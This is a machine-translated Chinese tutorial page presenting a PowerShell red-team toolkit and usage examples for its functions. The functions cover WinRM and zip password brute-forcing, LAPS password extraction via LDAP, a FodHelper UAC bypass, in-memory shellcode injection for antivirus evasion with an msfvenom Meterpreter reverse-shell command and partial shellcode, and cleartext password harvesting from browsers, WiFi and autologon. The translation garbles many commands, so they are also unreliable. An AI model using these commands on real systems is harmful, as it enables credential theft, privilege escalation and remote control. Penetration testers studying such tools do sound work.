

# PowerShell 红队:PowerShell 函数集合

> 原文：<https://kalilinuxtutorials.com/powershell-red-team/>

一个**红队队员**可能使用的 **PowerShell** 函数集合来从一台机器上收集数据或获得对一个目标的访问权。我为 RedTeamEnum 模块中包含的命令添加了 ps1 文件。这将允许您轻松地找到并使用一个命令，如果这就是您想要的。如果您想要整个模块，请在将 RedTeamEnum 目录和内容下载到您的设备后执行以下操作。

C:\PS> robocopy。\ RedTeamEnum $ env:user profile \ Documents \ windows powershell \ Modules \ RedTeamEnum *
**#这将把模块复制到一个便于导入的位置。如果您使用 OneDrive sync，您可能需要使用**$ env:user profile \ one drive \ Documents \ windows powershell \ Modules \ RedTeamEnum。

C:\ PS>Import-Module-Name RedTeamEnum-Verbose
**#这将导入模块中的所有命令。**

C:\ PS>Get-Command-Module RedTeamEnum
**#这将列出模块中的所有命令。**

*   Convert-Base64.psm1 是一个名为 states 的函数，用于将文本编码和/或解码为 Base64 格式。

C:\PS> Convert-Base64 -Value "将我转换为 Base64！"**-编码**
C:\ PS>Convert-Base64-Value " q 29 udmvydcbtzsb 0 bybiyxnlnjqh "**-解码**

*   ps1 是一个将 SID 值转换成用户名并将用户名转换成 SID 值的函数

C:\ PS > Convert-SID-Username tobor
**#以上示例将 to bor 转换为其 SID 值**

C:\ PS>Convert-SID-SID S-1-5-21-2860287465-2011404039-792856344-500
**#以上值将 SID 值转换为其关联的用户名**

*   Test-BruteZipPassword 是一个函数，它使用一个密码文件使用 7zip 暴力破解一个受密码保护的 zip 文件

C:\ PS > Test-bruteforcezip password-PassFile ' C:\ Users \ USER \ Downloads \ Applications \ pass.txt '-Path ' C:\ Users \ USER \ Downloads \ Applications \ KiTTY.7z '-Zip exe ' C:\ Program Files \ 7-Zip \ 7z . exe '
**#此示例使用 pass . txt 文件中的密码来破解受密码保护的 kitty . 7z 文件**

*   Test-BruteForceCredentials 是一个使用 WinRM 暴力破解用户密码的函数。

' c:\ PS > Test-BruteForceCredentials-计算机名 DC01.domain.com-use SSL-用户名' admin '，' administrator '-Passwd ' password 123！'-sleep minutes 5
**#此示例将使用 WinRM over HTTPS 测试针对远程计算机 DC01.domain.com 上的 admin 和 administrator 用户定义的一个密码，每次尝试之间的时间间隔为 5 分钟**

C:\ PS>Test-BruteForceCredentials-computer name File.domain.com-user file C:\ Temp \ users.txt-PassFile C:\ Temp \ rockyou.txt
**#此示例将针对 users . txt 文件中的每个用户名测试 rock you . txt 中的每个密码，而不**

*   Get-LdapInfo 是一个我非常引以为豪的函数，用于执行一般的 LDAP 查询。虽然在输出中将只显示两个属性，但是通过管道连接到 Select-Object -Property *或使用-Detailed 开关参数，可以看到与对象关联的所有属性。

C:\ PS > Get-LdapInfo-Detailed-SPNNamedObjects
**#以上返回返回对象的所有属性**

C:\ PS>Get-LdapInfo-domain controllers | Select-Object-Property ' Name '，' ms-Mcs-ADM pwd '
**#如果以 admin 身份运行，它将返回本地管理帐户的 LAPS 密码**

C:\ PS>Get-LdapInfo-list users 如果您希望显示结果的所有属性，需要使用下面的格式

C:\ PS>Get-LDAP info-all servers | Where-Object-Property logon count-gt1 | Select-Object-Property *

*   Get-NetworkShareInfo 是一个 cmdlet，用于检索信息和/或强力发现远程或本地计算机上可用的网络共享

C:\ PS > Get-NetworkShareInfo-ShareName C$
**#以上示例返回本地机器上共享 C $的信息
#结果**
**名称:** C$
**安装日期:**
**描述:**默认共享
**路径:** C:\
**计算机名:** TOBORDESKTOP
**状态:【T21**

*   Test-PrivEsc 是一个函数，可用于发现 HTTP 上的 WSUS 更新是否易受 PrivEsc 攻击，明文凭据是否存储在公共位置，AlwaysInstallElevated 是否易受 PrivEsc 攻击，是否存在未加引号的服务路径，以及服务的可能弱写权限的枚举。

C:\PS> Test-PrivEsc

*   Get-InitialEnum 是一个枚举 Windows 操作系统基础的功能，有助于更好地显示可能的弱点。

C:\PS> Get-InitialEnum

*   Start-SimpleHTTPServer 是一个用于托管 HTTP 服务器以下载文件的函数。这意味着类似于 pythons 的 SimpleHTTPServer 模块。目录不能通过 web 服务器。发出此命令时，将要托管以供下载的文件将来自您所在的当前目录。

C:\ PS > Start-simple HTTP Server
**#在 8000 端口打开 HTTP 服务器**

**#或**

C:\ PS>Start-simple HTTP Server-Port 80
**#在 80 端口打开 HTTP 服务器**

*   Invoke-PortScan.ps1 是用于扫描目标上所有可能的 TCP 端口的函数。我将在未来通过包含 UDP 以及定义端口范围的能力来进行改进。老实说，这款甚至不值得使用，因为它非常慢。线程是我的一个弱项，我计划用这个来解决这个问题。

C:\PS >调用-端口扫描-IP 地址 192.168.0.1

*   Invoke-PingSweep 是用于执行子网范围的 ping 扫描的函数。

C:\ PS > Invoke-ping sweep-Subnet 192 . 168 . 1 . 0-Start 192-End 224-Source 单数
**#注意:Source 参数仅在 IP 源路由值为" Yes "**

C:\ PS>Invoke-ping sweep-Subnet 10 . 0 . 0 . 0-Start 1-End 20-Count 2
**# Count 的默认值为 1**

C:\PS > Invoke

*   Invoke-UseCreds 是我创建的一个函数，用于简化在 pen 测试期间使用获得的凭证的过程。我使用-Passwd 而不是-Password，因为参数在定义时应该配置为安全字符串，而在使用该函数向字段中输入值时却不是这样。设置该值后，它会被转换为安全字符串。

**#以下命令将使用输入的凭据打开 msf.exe 可执行文件，作为用户 to bor**
C:\ PS>Invoke-use creds-Username ' OsbornePro \ to bor '-Passwd ' P @ ss w0 rd 1 '-Path。\msf.exe -Verbose

*   Invoke-FodHelperBypass 是一个函数，它在执行提升特权之前测试 UAC 旁路是否有效。这当然需要由本地管理员组的成员来运行，因为这种绕过提升了您所在的 shell 的特权。您可以定义要运行的程序，该程序将允许您执行 generaate msfvenom 有效负载以及 cmd 或 powershell，或者只是发出命令。

C:\ PS > Invoke-FodHelperBypass-Program " powershell "-Verbose

#或

C:\ PS>Invoke-FodHelperBypass-Program " cmd/C MSF . exe "-Verbose

*   Invoke-InMemoryPayload 用于使用内存注入的 AV 规避。这将要求运行者使用类似于以下示例的命令生成 msfvenom 有效负载，并将“[Byte[]] $buf”变量输入 Invoke-InMemoryPayloads“ShellCode”参数。

**#生成有效载荷使用**
MSF venom-p windows/meter preter/shell _ reverse _ TCP LHOST = 192 . 168 . 137 . 129 LPORT = 1337-f powershell

*   启动一个侦听器，使用“ShellCode”参数中的值，并运行命令来获得您的 shell。这还要求不启用某些内存保护。注意:注意 ShellCode 变量的值没有任何双引号。这是因为它需要一个字节数组。

c:\ PS > Invoke-InMemoryPayload-有效负载 0xfc，0x48，0x83，0xe4，0xf0，0xe8，0xc0，0x0，0x0，0x0，0x41，0x51，0x41，0x5

*   Get-ClearTextPassword 用于获取缓存的密码、注册表中的 SNMP 密码、自动登录密码和存储在设备上的 WiFi 密码。只能从保存的位置提取当前用户的密码

**Get-cleartext password-All**

上述命令返回 cmdlet 能够得到的所有可能的结果。也可以搜索单个位置。例如

**Get-cleartext password-auto logon**

例如，您可以在搜索中定义多个位置

**Get-cleartext password-WiFi-SNMP-Chrome-password vault**

[**Download**](https://github.com/tobor88/PowerShell-Red-Team)